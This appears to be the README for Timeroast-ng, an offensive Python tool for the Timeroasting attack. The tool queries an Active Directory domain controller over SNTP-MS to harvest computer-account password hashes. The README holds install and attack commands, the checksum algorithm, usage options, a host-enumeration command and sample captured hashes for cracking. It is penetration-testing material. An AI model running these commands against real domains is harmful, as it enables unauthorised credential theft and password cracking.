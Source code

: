 # Timeroast-ng

[![PyPI](https://img.shields.io/pypi/v/timeroast_ng)](https://pypi.org/project/timeroast_ng/)

Timeroasting ([Paper - Timeroasting, Trustroasting and Computer Spraying](https://www.secura.com/uploads/whitepapers/Secura-WP-Timeroasting-v3.pdf) by SecuraBV;
their [Repo - Timeroasting](https://github.com/SecuraBV/Timeroast)) is a simple attack
technnique that leverages the design concept of Microsoft's authentication extension
for the Simple Network Time Protocol ([SNTP-MS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sntp/)).

![example-output](/assets/example.png)

This technique involves sending specially crafted NTP packets to the domain controller
of an Active Directory in order to retrieve a checksum that was calculated using the
password of the targeted **computer** account. Since a server will only reply to requests
made from computer accounts, it is possible to retrieve password hashes for all computer
accounts in a domain. The resulting list of hashes can be cracked with hashcat using mode
`31300`.

## Installation

The main tool works out of the box with no dependencies. You can simply clone the repository -
optional dependencies are [impacket](https://github.com/fortra/impacket) (for `resolveRID.py`)
and [rich](https://github.com/Textualize/rich) to add colored output support.

Manual setup
```bash
git clone https://github.com/MatrixEditor/timeroast-ng
cd timeroast-ng
python3 timeroast-ng.py -r1000-2000 -T5 <dc_ip>
```

Installation via `pip`:
1. via pypi
  ```bash
  pip install timeroast-ng
  ```
2. or using git
  ```bash
  pip install git+https://github.com/MatrixEditor/timeroast-ng
  ```

## Background

What the hell is [SNTP-MS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sntp/)?
First of all, the Network Time Protocol (NTP) allows to place an optional authenticator payload,
storing a key identifier and an arbitrary digest value. The basic message flow can
be broken down to the following:

```
+------------+      NTP Packet (UDP, 123)
| Client NTP +------------------------------+
|  Request   | (1)                          |
+------------+                     +--------v---------+
                                   | Server processes |
                                   |  Client request  |
                                   +--------+---------+
                                            |
                                            |
                                   RID linked to Computer: Yes
                                            | (2)
                                   +--------v----------+
+-----------------+                | Server calculates |
| Client verifies | (3)            |  checksum using   |
|  NTP-Response   <----------------+ computer password |
+-----------------+    NTP-Reply   +-------------------+
```

1. The client prepares an NTP packet with the custom _Authenticator_ extension that stores
   the relative identifier (RID) of the requestor (computer account).
2. Server receives the request: packets of length `68` (_Authenticator_) and `120`
   (_ExtendedAuthenticator_) will be processed. Only if the given RID in the request packet
   is linked to a computer account, the server will generate a response. The reply will
   contain a checksum that was generated using the password of the target account. Algorithm:
   ```python
   MD5(MD4(password.encode("utf16-le") + response_message[:48]))
   ```
   All other NTP-related fields will be filled out normally as defined by NTP.
3. Normally, the client would verify the response by using its own password. Since we are only
   interested in capturing the hash (and salt), the flow ends here.

Q: **So, why is this useful?**

With this approach, any unauthenticated attacker could enumerate the RIDs of all computer accounts
within the domain and can try to crack their passwords. Moreover, since _Trust-Accounts_ are
computer accounts, they will be in the resulting list too.

Q: **There's an option to let the server calculate the checksum using the old password. Why can't we**
**leverage this behaviour to distinguish whether the password has changed recently on the target**
**computer account?**

Simply because we can't control the response message data. As the reply contains timestamps that we
can't predict, there is no gain in using this feature.

---

Generally speaking, _Timeroasting_ can be used to **anonymously** get the RIDs of all computer
accounts and trust accounts together with their password hashes. However, there is a huge downside:
we can't map the RID to a valid username. Currently, there is no option to anonymously map the
gathered identifiers with their correct username. Approaches could be

- Try to resolve the hostname of each Windows computer in the local network (e.g. using [NetExec](https://github.com/Pennyw0rth/NetExec))
    ```console
    $ nxc smb <cidr> --generate-hosts-file <outputfile>
    ```
- Generate a list of valid computer names and try password spraying (in case you cracked it).

Another way to resolve the computer name is by querying the domain controller using an authenticated
user. First of all, we need the domain's SID (e.g. with [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py)
by impacket) - which is everything that is needed. The final LDAP query we have to execute looks
like this:
```
(&(objectSid=<Domain-SID>-<RID>))
```

To automate these queries one can use [resolveRID](resolveRID.py) to resolve the RID to an existing
computer account.


## Usage

The main script _timeroast-ng.py_ is designed for two modes of operation, both times supporting only the basic _Authenticator_ extension.

```txt
usage: timeroast-ng.py [options] dc_ip

Implementation of the Timeroasting attack to grab hashes from computer accounts using SNTP-MS.

options:
  -h, --help           show this help message and exit
  -no-color            disables colorized output (enabled by default if rich is not installed)
  -l, --listener ADDR  Local address to listen on

Target Options:
  dc_ip                Target Domain Controller IP address or host.
  -rt RID_FILE         Path to a file containing relative identifiers (RIDs) to target (TargetedTimeroast).
                       Each line will be interpreted as a RID range.
  -r, -range RANGES    Set the RID brute force range(s). Format is [start][-][end][, ...], whereby one
                       element must be present. For instance, '1-10' would be valid and '-10' or '10-' too.
                       You can use '-' to try ALL available RIDs (0 to (1 << 31) - 1). If start is not
                       specified it will be set to zero and end will be UINT32_MAX - 1.

Collection Options:
  -use-oldkey          Queries for the old password upon receiving a valid responce from the target server.
  -only-oldkey         Only queries for the old password of the machine account
  -skip-duplicate      Collects only new hashes. (Only together with -append and -outfile) This will work
                       only if the RID has been written to the hashes file.

Timing options:
  -non-blocking        Executes in non-blocking mode
  -wait SECONDS        Waits X seconds (float) after sending all requests (non-blocking mode only). Default
                       delay is 0.5s.
  -T <0-5>             Set timing template (higher is faster). Default template is T3.
  -timeout TIMEOUT     Timeout for local socket (blocking-mode) / refesh interval (non-blocking mode) in
                       seconds (default=0.01)

Output Options:
  -outfile OUTFILE     Stores the captured hashes into the given file. (use -append to add data to an
                       existing file)
  -append              Does not overwrite existing captured hashes
  -no-userid           Remove RID from output hash (otherwise --username must be used with hashcat)
```

## Non-Blocking Mode

This mode is recommended for users who don't have time to waste and don't need to be stealthy. For instance:
```console
$ python3 timeroast-ng.py <dc_ip> -r1000-2000 -T5 -non-blocking
```
will start an attack in non-blocking mode (means _faster_) on RIDs starting from `1000` to `2000`
(exclusive). The result could be something like this:
```
$ timeroast-ng.py 192.168.56.11 -r1000-1200 -T5 -non-blocking
[*] User RID will be added to the output hash - make sure to use --username with hashcat to crack them!
[*] Starting Timeroasting attack against: 192.168.56.11
1001:$sntp-ms$b644b0e1f8723f518c7d131c238b2ab9$1c020ae900000074000a5450c0a8380aeb814a1f1e19b0ab0000000000000000eb814d8c4a21c39feb814d8c4a21f446
1105:$sntp-ms$09737ab1e7c86ceaa9f9042c84d45560$1c020ae900000074000a5450c0a8380aeb814a1f1f2c1be70000000000000000eb814d8c4b3444abeb814d8c4b3453c4
1104:$sntp-ms$3c3ac1f9eabf9bc6e83a1682cb54f8ba$1c020ae900000074000a5450c0a8380aeb814a1f1f2961f90000000000000000eb814d8c4b318259eb814d8c4b3199d5
1123:$sntp-ms$ec534d53bef0508ed3febc99bb66f94a$1c020ae900000074000a5450c0a8380aeb814a1f1f6feea50000000000000000eb814d8c4b781916eb814d8c4b782327
1122:$sntp-ms$93dec08a525fd1df36ef9e204c13e255$1c020ae900000074000a5450c0a8380aeb814a1f1f6c1fe30000000000000000eb814d8c4b744a54eb814d8c4b7457c0
```

Some notes on this mode of operation:
- Receiving messages is done in a separate thread, therefore sending all request may complete before
  the server has been able to respond to valid packets. If your output contains less responces than
  expected, try to increase the `-wait` value.
- Since this mode will utilize the whole bandwith of the network, the server may not be able to respond
  directly to the first message received. Therefore, the waiting time at the end should be increased the
  lower the specified range is.
- **this mode is fast**
- **It is recommended to always use `-T5` with this mode as it will give the best results**

## Blocking-IO Mode

This is the default implementation using plain Pyton sockets (yes, a very primitive approach)
that will block until a timeout occurs or a packet was received.
```console
$ python3 timeroast-ng.py <dc_ip> -r1000-1200 -T5
```

## Range Specification

Timeroast-ng supports multiple range definitions thaz follow a broader pattern: `[start][-][end][, ...]`.
The following list contains valid examples:
```bash
-r-                         # MIN to MAX (exclusive)
-r-100                      # MIN to 100 (exclusive)
-r100-                      # 100 to MAX (exclusive)
-r 1001                     # only 1001
-r 1000-2000                # 1000 to 2000 (exclusive)
-range 10,20,100-200        # 10, 20 and from 100 to 200 (exclusive)
```

You can also write a file that contains range specifications in each line (use `-rt <file>`).

## License

Distributed under the MIT License. See LICENSE for more information.